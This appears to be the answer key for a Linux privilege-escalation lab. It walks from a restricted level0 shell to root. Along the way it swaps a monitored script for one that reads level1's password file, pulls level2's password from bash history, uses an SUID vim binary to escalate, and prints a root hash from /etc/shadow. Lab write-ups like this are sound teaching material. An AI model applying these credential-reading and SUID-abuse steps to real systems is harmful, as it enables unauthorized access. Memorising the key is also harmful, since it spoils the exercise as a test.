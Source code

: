 # Answer Key

1. What is the default shell for the *level0* user?

Found using `echo $0`:

```
-rbash
``` 

2. What was your final exploit script to get *level1* credentials?

There are multiple solutions to this problem. `password.backup` in 
`/home/level1/` contains the *level1* password that is only supposed to be
readable by *level1*. Moving `monitor.sh` to something else like `monitor.bak`
allows the *level0* user to `scp` a different `monitor.sh` script. Here is one
example that will output the password to `monitor.out`:

```
#!/bin/bash
cat /home/level1/password.backup
```

3. What are the *level1* credentials?

Found in `/home/level1/password.backup`:

```
ThisIsThePasswordForLevel1
```

4. What mistake did *level1* make?

*level1* attempted to SSH into the *level2* user using the `-p` flag as a
password instead of a desired port number. This is evident in 
`/home/level1/.bash_history`. 

5. What are the *level2* credentials?

Found in `/home/level1/.bash_history`

```
L3v3l2!
```

6. What program did you use to exploit an SUID bit?

```
vim.basic
```

7. What is the root password hash?

From `/etc/shadow`:

```
root:$6$4icRLxLE$ayqo41RNLRA0hrB4HhOg1JTHv9kk6DeQsfLvE8jqVSWiofOKRvBQO74QOpLeK9vho5BEZGJ7NJXftm7yI4xSF1:18015:0:99999:7:::
```
